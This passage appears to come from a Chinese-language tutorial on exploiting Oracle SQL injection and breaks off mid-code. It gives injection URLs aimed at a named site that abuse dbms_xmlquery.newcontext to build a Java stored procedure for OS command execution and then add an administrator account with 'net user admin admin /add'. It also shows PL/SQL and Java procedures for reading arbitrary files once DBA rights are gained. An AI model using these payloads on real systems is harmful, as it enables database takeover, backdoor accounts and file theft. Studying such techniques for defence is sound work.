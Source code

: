 ```
web: http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;  
begin execute immediate ''create or replace and resolve java source named JAVACMD as import java.lang.*;import java.io.*;public  
class JAVACMD{public static void execmd(String command) throws IOException{Runtime.getRuntime().exec(command);}} ''; commit;  
end;') from dual) is not null

web: http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;  
begin execute immediate ''create or replace procedure MYJAVACMD(command in varchar) as language java name  
''''JAVACMD.execmd(java.lang.String)''''; ''; commit;end;') from dual) is not null

web :http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('begin myjavacmd(''net user admin admin /add'')  
;commit;end;') from dual) is not null

```

由于用了dbms_xmlquery.newcontext之后，代码就惨不忍睹了，下面几篇就不结合dbms_xmlquery.newcontext来使用了，反正都懂的 :)

**0x4 文件系统**

下面我们将利用pl/sql来读取文件，其实获取dba权限之后，怎么样对系统进行操作完全就是个人pl/sql或java水平的体现

```
create or replace procedure read_file(dirname varchar2,fname varchar2) as  
FD utl_file.file_type;  
buffer varchar2(200);  
begin  
execute immediate 'create or replace directory rw_file as '''||dirname||'''';  
FD := utl_file.fopen('RW_FILE',fname,'r');  
dbms_output.enable(100000);  
loop  
sys.utl_file.get_line(FD,buffer);  
dbms_output.put_line(buffer);  
end loop;  
execute immediate 'drop directory rw_file';

exception  
when NO_DATA_FOUND then  
dbms_output.put_line('---|---|---|file end!---|---|---|---|');  
when others then  
dbms_output.put_line('please check your file');  
end read_file;  
/  
exec read_file('c:\','boot.ini');  

```

上面是PL/SQL代码来读取文件，下面是利用JAVA来读取文件内容

```
create or replace and compile java source named javareadfile as  
import java.lang.*;  
import java.io.*;  
public class javareadfile  
{  
public static void readfile(String filename) throws IOException  
{  
FileReader f = new FileReader(filename);  
BufferedReader fr = new BufferedReader(f);  
String text = fr.readLine();  
while(text != null)  
{  
```